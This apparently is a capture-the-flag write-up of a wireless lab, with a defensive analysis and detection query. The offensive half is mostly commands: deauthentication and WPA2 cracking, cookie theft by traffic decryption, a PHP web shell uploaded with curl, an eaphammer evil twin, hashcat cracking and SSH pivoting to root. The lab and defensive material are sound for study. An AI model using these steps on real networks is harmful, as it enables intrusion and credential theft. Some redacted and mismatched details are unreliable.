# AirTouch

```
Difficulty: Medium
Operating System: Linux
Services: SSH, HTTP, 802.11 (WiFi)

```

> Target: `10.XX.XX.XXX` (Initial Jump Host)


## Summary of Attack Chain

| Step | User / Access   | Technique Used                        | Result                                                                                  |
| :--: | :-------------- | :------------------------------------ | :-------------------------------------------------------------------------------------- |
|   1  | N/A (External)  | **Network enumeration (Nmap / SNMP)** | Identified open ports `22` (SSH) and `161` (SNMP) on the jump host.                     |
|   2  | Consultant      | **SSH access (default creds)**        | Gained initial foothold on the laptop using provided credentials.                       |
|   3  | Root (Laptop)   | **Wireless packet capture**           | Enabled monitor mode and captured a WPA2-PSK handshake from `AirTouch-Internet`.        |
|   4  | Attacker        | **Offline dictionary attack**         | Cracked the PSK (`chalXXXXX`) using `aircrack-ng` with `rockyou.txt`.                   |
|   5  | Attacker        | **Network pivoting (Layer 2)**        | Joined `AirTouch-Internet`, bridging into the Tablet VLAN (`192.168.3.0/24`).           |
|   6  | Unauthenticated | **Passive traffic decryption**        | Decrypted guest Wi-Fi traffic in Wireshark and stole Admin session cookies.             |
|   7  | Admin (Web)     | **Session hijacking**                 | Injected stolen `PHPSESSID` cookies to bypass authentication on the Management Gateway. |
|   8  | Admin (Web)     | **File upload RCE**                   | Uploaded a malicious `.phtml` web shell to execute arbitrary code.                      |
|   9  | remote          | **Lateral movement (SSH)**            | SSH’d into the Tablet Manager (`192.168.3.1`) and retrieved **user.txt**.               |
|  10  | remote          | **Data exfiltration**                 | Stole RADIUS CA materials (`server.key`, `ca.crt`) from backup directories.             |
|  11  | Attacker        | **Evil Twin attack**                  | Deployed a rogue AP impersonating `AirTouch-Office` to capture Enterprise auth hashes.  |
|  12  | Attacker        | **Hash cracking (MSCHAPv2)**          | Cracked captured Enterprise credentials to recover the corporate admin password.        |
|  13  | Attacker        | **Network pivoting (VLAN hopping)**   | Authenticated to `AirTouch-Office`, reaching the Corporate VLAN (`10.10.10.0/24`).      |
|  14  | remote          | **Lateral movement (SSH)**            | SSH’d into the Core Server / Domain Controller (`10.10.10.1`).                          |
|  15  | Root            | **Cleartext credential hunting**      | Found admin creds in `hostapd_wpe.eap_user`; retrieved **root.txt**.                    |





# Offensive Operation

## Reconnaissance

We began by enumerating the target IP address `10.XX.XX.XXX` to identify running services and potential entry points.

* **Nmap Scan:**
We performed a comprehensive scan including service version detection and default scripts.
```bash
nmap -A -Pn -sC -sU 10.XX.XX.XXX -o nmapresult
```

*Result:* The scan revealed SSH and SNMP ports open.
* **SNMP Enumeration:**
We probed the SNMP service using the common community string `public`.
```bash
snmp-check 10.XX.XX.XXX -c public -t 10 -v 2c

```




*Result:* This enumeration provided valuable system information, potentially revealing user accounts & other system details.

## Initial Access

Using credentials discovered during the reconnaissance phase (or provided for the scenario), we established an SSH connection to the initial foothold machine, likely a "Consultant" laptop within the range.

```bash
ssh consultant@10.XX.XX.XXX
# Password: RxBlZhXXXXXXXXXXXXX

```






Once connected, we elevated privileges to root to gain full control over the wireless interface.

```bash
sudo -i

```

## Wireless Network Attack (AirTouch-Internet)

The goal was to compromise the `AirTouch-Internet` wireless network. This involved capturing a WPA2 handshake and cracking the Pre-Shared Key (PSK).

### A. Setup and Monitoring

First, we placed the wireless interface `wlan0` into monitor mode to listen to raw 802.11 traffic.

```bash
airmon-ng start wlan0

```









Next, we scanned for the target network to identify its BSSID and channel.

```bash
sudo airodump-ng wlan0mon

```

### B. Capturing the Handshake

We focused the capture on the specific BSSID (e.g., `F0:9F:C2:A3:F1:A7`) on Channel 6.

```bash
airodump-ng --bssid F0:9F:C2:A3:F1:A7 --channel 6 -w handshake wlan0mon

```

[Handshake_capture_1_.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/htb_Airtouch-handshake_capture.txt "Results")

[Handshake_Capture_2_.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/htb_Airtouch-handshake_capture2.txt "Results")

To force a handshake capture, we launched a de-authentication attack against a connected client. This forces the client to disconnect and reconnect, generating the 4-way handshake we need to capture.

```bash
# -0 10 sends 10 deauth packets
sudo aireplay-ng --ignore-negative-one -0 10 -a F0:9F:C2:A3:F1:A7 -c 28:6C:XX:XX:XX:XX wlan0mon

```

[Deauth](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/htb_Airtouch-handshake_deauth.txt "Results")









### C. Cracking the Password

With the handshake captured (`handshake-03.cap`), we used `aircrack-ng` and a wordlist to recover the plaintext password.

```bash
aircrack-ng -w ../wordlists/rockyou.txt -b F0:9F:C2:A3:F1:A7 handshake-03.cap

```

[handshake-03.cap](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/handshake-03.cap "Results")




* **Cracked Password:** `chaXXXXXX`

## Pivoting to the Tablet Network

Having the password for `AirTouch-Internet`, we configured the attack machine to connect to this network. This grants access to a new VLAN (192.168.3.0/24).

```bash
wpa_passphrase "AirTouch-Internet" "chaXXXXXX" > /tmp/internet.conf
```



```bash
wpa_supplicant -B -i wlan0 -c /tmp/internet.conf
```

```bash
dhclient wlan0
ip addr show wlan0

```

We then performed a ping sweep on the new subnet to identify active hosts.

```bash
nmap -sn 192.168.3.0/24

```

[Nmap_Scan_Internal](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/nmop_23_scan.txt "Results")


The scan identified the gateway at `192.168.3.1`. A subsequent port scan revealed a web service running on port 80.

```bash
nmap -sV -p- --script ssh2-enum-algos,http-title 192.168.3.1

```



## Traffic Analysis & Session Hijacking

We discovered a `.cap` file (traffic capture) on the consultant's machine, or transferred one we captured ourselves. By decrypting this traffic using the known WiFi password, we could inspect the HTTP traffic of other users.

### A. Decryption Setup

We transferred the capture file to our local machine for analysis in Wireshark.

```bash
# On Attacker Machine
scp consultant@10.XX.XX.XXX:/home/consultant/file-01.cap ./

```

In **Wireshark**:

1. Navigate to **Preferences -> Protocols -> IEEE 802.11**.
2. Check **Enable Decryption**.
3. Click **Edit** next to Decryption Keys and add:
* **Key Type:** `wpa-pwd`
* **Key:** `chaXXXXXX:AirTouch-Internet`



### B. Extracting Cookies

We filtered the traffic for `http` and looked for packets containing login data or session cookies. We identified an HTTP request with valid session identifiers:



* **PHPSESSID:** `sr******************s` 
* **UserRole:** `admin`




## Web Exploitation & RCE

With the admin cookies, we could hijack a session on the web portal running at `192.168.3.1`.

### A. SSH Tunneling

To interact with the internal web server from our local browser, we set up an SSH tunnel (Local Port Forwarding).

```bash
ssh -f -N -L 4444:192.168.3.1:80 consultant@10.XX.XX.XXX

```




* Now, accessing `http://localhost:4444` forwards traffic to `192.168.3.1:80`.


### B. Session Hijacking

1. Open `http://localhost:4444` in a browser.
2. Open Developer Tools (Inspect Element) -> **Storage** -> **Cookies**.
3. Replace the existing `PHPSESSID` and `UserRole` values with the ones found in Wireshark.
4. Refresh the page.
* *Result:* We bypassed authentication and accessed the Admin Dashboard.






### C. File Upload RCE

The dashboard contained a file upload feature. We exploited this to upload a PHP web shell.

1. **Create the Payload:**
```bash
cat > exploit.phtml << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
```

[shell.phtml](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/shell.phtml "Results")


[shell.upload](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/shell.upload "Results")





*(Note: Using `.phtml` often bypasses basic extension filters.)*

2. **Upload the Payload:**
We used `curl` to upload the file, ensuring we passed the admin cookies.
```bash
curl -b "PHPSESSID=sr******************s;UserRole=admin" \
-F "fileToUpload=@exploit.phtml" -F "submit=Upload File" \
http://localhost:4444/upload.php

```




3. **Trigger the Exploit:**
We accessed the uploaded file to execute commands.
```bash
curl -b "PHPSESSID=sr******************s;UserRole=admin" \
"http://localhost:4444/uploads/exploit.phtml?c=uname+-a"

```




*Result:* The server responded with the system information, confirming RCE.



[Pass_Admin_managerlogin_html.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/Pass_Admin_managerlogin_html.txt "Results")


## 7. User Flag

Using the web shell, we likely discovered credentials or simply used the shell to pivot. Based on the notes, we proceeded to SSH directly into the gateway machine.

```bash
ssh user@192.168.3.1
```

Once logged in, we escalated to root (or the required user context) to retrieve the flag.

```bash
sudo -i
cat user.txt
```



# Root

## Internal Reconnaissance (Tablet Manager)

After gaining a foothold on the gateway machine (`192.168.3.1` or similar), we perform local enumeration to find a path to the secure corporate network.

We discover a suspicious script named `send_certs.sh` and a directory named `certs-backup`.

```bash
ls -l
cat send_certs.sh

```



* **Discovery:** The script likely contains a password (used later for the `remote` user) and indicates that this machine handles certificates for the corporate network authentication.
* **Exfiltration:** We download the `certs-backup` folder (containing `server.crt`, `ca.crt`, and `server.key`) to our attacker machine. These are critical for impersonating the corporate access point.



## Evil Twin Attack (AirTouch-Office)

To compromise the secure `AirTouch-Office` network, we perform an "Evil Twin" attack. By setting up a rogue Access Point that uses valid certificates, we can trick corporate devices into authenticating with us, allowing us to capture their NetNTLMv1/MSCHAPv2 chaXXXXXX hashes.

### A. Importing Certificates

On our attacker machine, we use `eaphammer`'s certificate wizard to import the stolen certificates. This makes our rogue AP look legitimate to clients.

```bash
./eaphammer --cert-wizard import \
    --server-cert certs-backup/server.crt \
    --ca-cert certs-backup/ca.crt \
    --private-key certs-backup/server.key

```




### B. Targeting the Network

We scan the environment to find the BSSID and channel of the legitimate `AirTouch-Office` network.

```bash
airodump-ng --channel 44 wlan0mon
```




* **Target BSSID:** `XX:XX:XX:XX:XX:XX` (Noted from scan)
* **Channel:** 44





### C. Launching the Rogue AP

We start `eaphammer` to spoof the network and capture credentials.

```bash
./eaphammer --creds -i wlan0mon -e "AirTouch-Office" -b XX:XX:XX:XX:XX:XX -c 44 --auth wpa-eap

```



[hash_capture.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/hash_capture.txt "Results")


[hash.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/hash.txt "Results")


* **-e:** SSID to spoof.
* **-b:** BSSID of the target AP (helps confuse clients).
* **--auth wpa-eap:** Specifies Enterprise authentication.

**Result:** A client connects to our rogue AP, and `eaphammer` captures a hash.

## Cracking the Enterprise Hash

We save the captured hash and use `hashcat` to crack it. The hash type for NetNTLMv1 / MSCHAPv2 is **5500**.

```bash
hashcat -m 5500 rXCXSl::::4eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX52f74 /usr/share/wordlists/rockyou.txt

```

* **Cracked Password:** `xMJpzXt4XXXXXXXXXXXXXXXXXXXXXX` (Example from logs)
* **Username:** `admin` 





## Pivoting to Corporate VLAN (10.10.10.0/24)

With the corporate credentials in hand, we can now legitimately connect our attacker machine to the `AirTouch-Office` network. This gives us direct IP access to the corporate infrastructure.

### A. Configuration

We create a `wpa_supplicant` configuration file (`conf.conf`) with the cracked credentials.

```bash
cat > conf.conf <<EOF
ctrl_interface=/var/run/wpa_supplicant
ap_scan=1
network={
  ssid="AirTouch-Office"
  scan_ssid=1
  key_mgmt=WPA-EAP
  eap=PEAP
  identity="admin"
  password="xMJpzXt4XXXXXXXXXXXXXXXXXXXXXX"
  phase1="peapver=0"
  phase2="auth=MSCHAPV2"
}
EOF
```



### B. Connection

We initialize the connection. Note that we might need to kill interfering processes first.

```bash
sudo wpa_supplicant -Dnl80211 -i wlan0 -c ./conf.conf -dd
```



### C. Verification & IP Assignment

We verify the Layer 2 link and request an IP address via DHCP.

```bash
iw dev wlan0 link

sudo dhclient -v wlan0

ifconfig wlan0

```




## Lateral Movement to Corporate Computer

Now that we have an IP on the Corporate VLAN, we target the main server at `10.10.10.1`.



We SSH into the machine using the `remote` user. The password for this user was found earlier in the `send_certs.sh` script during the recon phase.



[send_certs.sh](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/AirTouch/send_certs.sh "Results")


```bash
ssh remote@10.10.10.1
```




## Privilege Escalation to Root

We are now inside the Corporate Computer (`10.10.10.1`) as a low-level user. To escalate to root, we look for misconfigurations or stored credentials.

We inspect the RADIUS/Hostapd configuration files, which often contain cleartext passwords for authenticated users.

```bash
cat /etc/hostapd/hostapd_wpe.eap_user

```




* **Result:** We find the entry for the `admin` user with their password in cleartext (which matches the one we cracked earlier).

### Final Root Access

We exit the current session (or switch users) and log back in as the `admin` user.

```bash
ssh admin@10.10.10.1
```



Finally, we check our sudo privileges and capture the flag.

```bash
sudo -i
ls /root
cat /root/root.txt

```




# Defensive Operations


## Overview

* **1.1 Definition:** A multi-stage wireless infrastructure compromise leveraging **Layer 2 bridging**, **passive protocol analysis**, and **Rogue Access Point (Evil Twin)** methodologies to bypass network segmentation.
* **1.2 Impact:** **Complete Infrastructure Compromise (Root).** The adversary escalated from an external unauthenticated position to Domain/Root control by sequentially compromising the Guest VLAN, pivoting through the Management VLAN, and impersonating Corporate Trust Authorities to harvest Enterprise credentials.
* **1.3 The Scenario:** An adversary exploited weak WPA2-PSK security to breach the network perimeter. Leveraging passive traffic decryption (Wireshark) on the wireless medium, they hijacked an administrative session on a management gateway. Post-exploitation involved the exfiltration of RADIUS certificates (`server.crt`, `server.key`) to facilitate an **Evil Twin attack** against corporate employees, harvesting NetNTLMv1/MSCHAPv2 hashes to gain legitimate access to the Core Corporate VLAN.


## System Archotecture & Theory

* **2.1 Protocol Environment:**
* **Wireless:** IEEE 802.11 (WPA2-PSK, WPA2-Enterprise/PEAP-MSCHAPv2).
* **Authentication:** RADIUS (Hostapd), Local System Authentication.
* **Application Layer:** HTTP (PHP-based Management Portal), SSH (Remote Administration).


* **2.2 Attack Logic Flow:**

> [External RF Space] -> [Guest VLAN (WPA2-PSK Crack)] -> [Management Gateway (Session Hijacking)] -> [Tablet Manager (RCE)] -> [Certificate Exfiltration] -> [Rogue AP (Credential Harvesting)] -> [Corporate VLAN (Auth Relay)] -> [Domain Controller (Root)]

* **2.3 Theoretical Analogy:** The attack resembles "Island Hopping." The adversary did not assault the fortress (Corporate VLAN) directly. Instead, they compromised a lightly defended outpost (Guest WiFi), used the bridge (Tablet Manager) to steal the fortress's uniform (Certificates), and tricked the fortress guards (Corporate Clients) into opening the gates.


## Attack Vector


| Attribute                  | Technical Details                                                                                                                                                                                 |
| :------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Primary Identifiers**    | **SSIDs:** `AirTouch-Internet`, `AirTouch-Office`<br><br>**Files:** `send_certs.sh`, `hostapd_wpe.eap_user`                                                                                       |
| **Critical Vulnerability** | **Shared-medium exposure:** No client isolation enabled passive decryption and cookie theft.<br><br>**Trust model failure:** Storage of RADIUS CA keys on a pivot node enabled rogue AP creation. |
| **Offensive Action**       | **Cryptographic exhaustion** (PSK crack) → **Traffic decryption** (Wireshark) → **Evil Twin** (Enterprise auth capture) → **Credential reuse / pivoting**                                         |


### Prerequisites

* **Access Level:** Initial access required proximity (RF Line of Sight). Subsequent pivots required compromised credentials (`chalXXXXX`, `admin`).
* **Connectivity:** Promiscuous mode wireless interface (`wlan0mon`) and SSH connectivity for tunneling (`-L 4444:target:80`).
* **Target State:** WPA2-Enterprise configured with **PEAP**, vulnerable to rogue APs if clients do not strictly validate server certificates or if the attacker possesses the valid certs.


## Threat Hunting & Anamoly analysis

* **Hunt Hypothesis:** Adversaries operating within the wireless management plane will generate anomalous process execution chains involving archive tools (exfiltration of certs) and modification of authentication configurations (`hostapd`).
* **Behavioral Outliers:**
* **Web Server Parentage:** The process `www-data` (or equivalent Web Daemon) spawning `sh`, `bash`, or `python` indicates the presence of a Web Shell (RCE).
* **Impossible Travel (Layer 2):** A single MAC address appearing on the Guest VLAN and subsequently on the Corporate VLAN within a short timeframe suggests a bridged or compromised host.
* **Certificate Access:** Non-admin users or unexpected processes reading `server.key` or `ca.crt` is a high-fidelity indicator of preparation for an Evil Twin attack.


* **Toxic Combinations:**
* **Service Account:** `www-data` (Web) + **Permission:** Write access to webroot (Uploads) = **RCE**.
* **Asset:** Tablet Manager + **Data:** stored `certs-backup` = **Identity Provider Compromise**.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **Wireless Controller Logs:** Required to detect "Rogue AP" alerts and "Deauth Flood" signatures.
* **Web Server Logs:** Required to identify the injection of the `PHPSESSID` cookie (Cookie mismatch with source IP).
* **Endpoint (Sysmon):** Required to catch the file creation of `.phtml` files and the subsequent shell execution.


* **Detection-as-Code (KQL) - Target: Web Shell Upload & Execution:**

```kql
// Detects the creation of web scripts by the web server process
// Maps to the 'Exploit' phase where exploit.phtml was uploaded
DeviceFileEvents
| where ActionType == "FileCreated"
| where FileName endswith ".php" or FileName endswith ".phtml" or FileName endswith ".jsp"
| where InitiatingProcessFileName in~ ("httpd.exe", "nginx.exe", "w3wp.exe", "apache2")
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, FolderPath, RequestAccountName

```

* **Resilience Test:**
* **Bypass:** Adversary renames the file to `.txt` and leverages a Local File Inclusion (LFI) vulnerability to execute it, or uses "Fileless" command injection if available.
* **Sub-Rule Countermeasure:** Monitor for `cmd.exe` or `/bin/sh` spawned by `httpd`/`apache2` (Process Creation), regardless of file creation events.


## Toolkit & Implementation

* **Automation:**
* **Aircrack-ng Suite:** Used for deauth attacks (`aireplay-ng`), packet capture (`airodump-ng`), and PSK cracking.
* **EAPHammer:** Specialized tool for conducting targeted Evil Twin attacks against WPA2-Enterprise networks.
* **Wireshark:** Used for passive decryption of WPA2-PSK traffic to harvest session cookies.


* **OPSEC Analysis:**
* **Covert:** The passive decryption of the Guest WiFi traffic is entirely silent and undetectable by the target.
* **Overt:** The de-authentication packets sent to capture the handshake are noisy and trigger WIDS. The Rogue AP broadcast on the same channel as the corporate AP causes significant interference and is easily triangulated if physical security teams are active.


* **Post-Exploitation:**
* **Hashcat (Mode 5500):** Used to crack the captured NetNTLMv1/MSCHAPv2 chalXXXXX.
* **Credential Scavenging:** Reading cleartext passwords from `/etc/hostapd/hostapd_wpe.eap_user`.


## Defensive Mitigation

* **Technical Hardening:**
* **Client Isolation:** Enable AP Client Isolation to prevent passive sniffing and session hijacking on the Guest Network.
* **EAP-TLS:** Migrate from PEAP-MSCHAPv2 to **EAP-TLS** (Certificate-based authentication). This eliminates the reliance on passwords and prevents credential harvesting via Rogue APs.
* **Management Plane Segregation:** Ensure the "Tablet Manager" (or any device holding CA keys) is not accessible from the standard user VLANs.


* **Personnel Focus:**
* **Strict Certificate Handling:** Private keys (`server.key`) should never be stored in backup folders on pivot-accessible servers. They should reside in Hardware Security Modules (HSMs) or locked-down CA servers.


## Quick Action Playbook

| Step | Objective                | Technical Command / Logic                                               |
| :--: | :----------------------- | :---------------------------------------------------------------------- |
|  01  | **Enumerate wireless**   | `airodump-ng wlan0mon` (identify BSSID/channel)                         |
|  02  | **Capture handshake**    | `aireplay-ng --deauth 10 -a [BSSID] -c [Client] wlan0mon`               |
|  03  | **Crack PSK**            | `aircrack-ng -w wordlist.txt -b [BSSID] capture.cap`                    |
|  04  | **Decrypt traffic**      | Wireshark → Preferences → IEEE 802.11 → Keys → `wpa-pwd`                |
|  05  | **Rogue AP (Evil Twin)** | `eaphammer` with imported CA material to capture Enterprise creds       |
|  06  | **Pivot & persist**      | `ssh -L [Port]:[Target]:80 user@host` (tunneling into restricted VLANs) |
